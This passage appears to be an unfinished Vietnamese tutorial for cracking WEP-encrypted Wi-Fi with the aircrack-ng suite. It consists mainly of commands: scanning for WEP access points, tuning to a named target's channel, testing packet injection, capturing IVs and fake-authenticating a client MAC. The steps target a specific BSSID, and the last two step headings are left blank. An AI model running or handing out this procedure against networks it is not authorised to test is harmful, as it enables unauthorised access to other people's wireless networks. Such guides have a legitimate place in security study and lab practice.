

# Airodump-ng + Aircrack-ng + Aireplay-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```



Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **a Tan 99 muon ket ban 4 phuong**
- Channel: **11**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 11
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```


Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 11 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```


## Bước 4 -

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h 8C:F5:A3:1E:4E:37 wlan0mon
```


## Bước 5 -
